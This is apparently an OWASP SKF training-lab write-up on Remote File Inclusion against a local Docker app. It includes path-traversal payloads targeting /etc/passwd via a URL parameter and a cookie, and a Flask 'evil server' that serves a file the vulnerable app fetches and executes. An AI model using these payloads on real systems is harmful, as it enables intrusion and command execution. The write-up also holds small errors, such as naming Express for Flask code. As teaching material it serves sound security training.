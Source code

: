 # Remote File Inclusion

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/java/RFI/1.png)

![](../../.gitbook/assets/java/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/java/RFI/3.png)

Creating your own webserver: In this case you can use nodeJs express to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.txt")
def start():
    return render_template("evil.txt")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Install dependencies:

```
$ pip3 install flask
```

Then we create a file evil.txt and put the content below

```text
whoami
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ python3 evil_server.py
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](../../.gitbook/assets/java/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
